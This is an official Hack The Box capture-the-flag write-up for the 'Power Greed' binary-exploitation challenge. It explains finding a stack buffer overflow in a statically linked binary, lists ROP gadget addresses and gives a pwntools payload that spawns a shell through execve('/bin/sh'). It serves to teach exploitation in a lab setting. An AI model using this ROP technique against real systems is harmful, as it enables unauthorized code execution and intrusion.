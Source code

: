 ![](../../assets/banner.png)



<img src="../../assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />        <font size="6">Power Greed</font>

​	5<sup>th</sup> Feb 2025

​	Prepared By: w3th4nds

​	Challenge Author(s): w3th4nds

​	Difficulty: <font color=green>Very Easy</font>

​	Classification: Official

 



# Synopsis

Power Greed is a very easy difficulty challenge that features creating a rop-chain through the gadgets of a statically linked binary to call `execve("/bin/sh", 0, 0)`.

# Description

Volnaya's power grid is the backbone of their might, harnessing energy and resources to create an unstoppable force with limitless power. Do you have what it takes to breach their defenses and bring the system down?

## Skills Required

- Basic Debugging

## Skills Learned

- Create a rop-chain of gadgets in a statically linked binary.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

We also run a `file` command:

```c
❯ file power_greed
power_greed: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=0b1f10b9e9720538e9c4a290c03cb9fe87a03401, for GNU/Linux 3.2.0, not stripped
```

We see that it's a `statically linked` binary. That makes us wonder if the "Canary" protection is indeed real. Also, it leaves out the possibility of `ret2libc` attacks.

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary |
| **RelRO**  | **Partial** | Makes some binary sections **read-only** |

The program's interface 

![](assets/interface.png)



![](assets/inter.png)

Fuzzing around, we see that there is indeed a `Buffer Overflow`, and `Canary` seems to be missing.

### Understanding the ROP chain

We can easily find the offset at `0x38` bytes, but after that, we need to do something useful with the overflow. The binary is `statically linked`, meaning we can't leak an address and perform a `ret2libc` attack, thus leaving us wit the option of crafting a minimal rop-chain to call `execve("/bin/sh", 0, 0);`. To call a system function we need some things:

```c
rax |  Function  |         rdi          |           rsi            |           rdx
59  | sys_execve | const char *filename | const char *const argv[] | const char *const envp[]
```

We need to set these registers in order to call the function. Searching for useful gadgets, we can find these:

```c
pwndbg> rop --grep "pop rax ; ret"
0x000000000042adab : pop rax ; ret
    
pwndbg> rop --grep "pop rdi ; pop rbp ; ret"
0x0000000000402bd8 : pop rdi ; pop rbp ; ret

pwndbg> rop --grep "pop rsi ; pop rbp ; ret"
0x000000000040c002 : pop rsi ; pop rbp ; ret

pwndbg> rop --grep "pop rdx ; xor eax, eax"
0x000000000046f4dc : pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret

pwndbg> rop --grep "syscall"
0x000000000040141a : syscall 
    
pwndbg> find 0x480000, 0x490000, "/bin/sh"
0x481778
1 pattern found.
pwndbg> x/s 0x481778
0x481778:       "/bin/sh"
```

Luckily, all gadgets are present in the binary. The final payload should look like this:

```python
payload = flat({ 
  0x38: p64(pop_rdi_pop_rbp_ret) + p64(bin_sh) + p64(0) + 
        p64(pop_rsi_pop_rbp_ret) + p64(0)*2 +
        p64(pop_rdx_xor_eax_pop_rbx_pop_r12_pop_r13_pop_rbp_ret) + p64(0)*5 +
        p64(pop_rax_ret) + p64(0x3b) +
        p64(syscall)
}) 
```
